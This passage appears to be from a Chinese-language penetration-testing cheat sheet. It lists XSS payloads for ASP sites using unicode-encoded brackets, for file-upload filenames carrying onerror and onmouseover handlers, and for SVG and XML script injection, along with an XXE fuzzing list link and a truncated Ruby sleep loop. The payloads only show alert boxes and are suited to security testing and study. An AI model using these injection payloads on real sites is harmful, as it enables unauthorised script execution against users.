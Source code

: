 ```text
end

loop do
    sleep(10000)
end
```

fuzz

```text
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/XXE-Fuzzing.txt
```

### XSS

对于asp的站点，我们用unicode编码尖括号，适用于存储型XSS：

```text
'%uff1cscript%uff1ealert('XSS');%uff1c/script%uff1e'
```

#### 文件上传的XSS

发现上传点的时候，可以试试用payload作为文件名：

```text
<img src=x onerror=alert('XSS')>.png
```

or：

```text
"><img src=x onerror=alert('XSS')>.png
```

or:

```text
"><svg onmouseover=alert(1)>.svg
```

#### SVG

stuff.svg

```text
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert('XSS!');
   </script>
</svg>
```

#### XML

```text
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>
```
